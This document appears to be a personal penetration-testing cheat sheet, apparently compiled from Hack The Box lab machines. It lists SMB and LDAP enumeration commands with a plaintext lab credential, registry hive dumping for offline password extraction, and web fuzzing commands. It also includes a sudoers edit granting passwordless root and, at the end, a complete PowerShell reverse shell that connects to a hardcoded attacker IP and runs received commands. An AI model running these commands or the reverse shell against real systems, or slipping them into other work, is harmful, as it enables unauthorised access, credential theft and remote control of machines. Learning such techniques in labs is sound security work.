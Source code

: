 #### SMB:
  * smbclient -N -L //10.10.11.35
  * netexec smb 10.10.11.35 -u 'a' -p '' --shares
  * smbclient -U Guest //10.10.11.35/share
  * netexec smb 10.10.11.35 -u Guest -p '' --rid-brute
  * netexec smb 10.10.11.35 -u username.txt -p 'password123!'

### LDAP:
  * ldapdomaindump 10.10.11.35 -u 'domain\username' -p 'password123!'
  * ldapdomaindump 10.10.11.35 -u 'cicada\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'

#### Powershell:
  * Get-ChildItem -Path C:\ -Recurse -Filter "user.txt" -ErrorAction SilentlyContinue

#### System SAM Hive dump:
  * cd c:\
  * mkdir Temp
  * reg save hklm\sam c:\Temp\sam
  * reg save hklm\system c:\Temp\system
  * cd Temp
  * download sam
  * download system
  * pypykatz registry --sam sam system

#### Subdomain Enumeration:
  * ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18

#### Directory Enumeration
  * gobuster dir -u http://lms.permx.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#### Symlink Techniques:
  * ln -s /etc/sudoers /home/john/sudoerss

#### Manipulating sudoers file:
  * vi /etc/sudoers
    * john ALL=(ALL:ALL) NOPASSWD: ALL
   
#### Hash cracking:
  * john john.hash -w=/usr/share/wordlists/rockyou.txt

#### SSH local port forwarding:
  * Service in running on victim machine 127.0.0.1:8080 and can only be accessed via localhost
    * kali-Attacker$ ssh -L 0.0.0.0:9999:127.0.0.1:PORT john@VICTIM-IP
    * kali-Attacker$ curl -I http://127.0.0.1:9999
   
#### Exploiting Chrome Debugger:
  * https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/

#### Powershell Reverse shell:
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

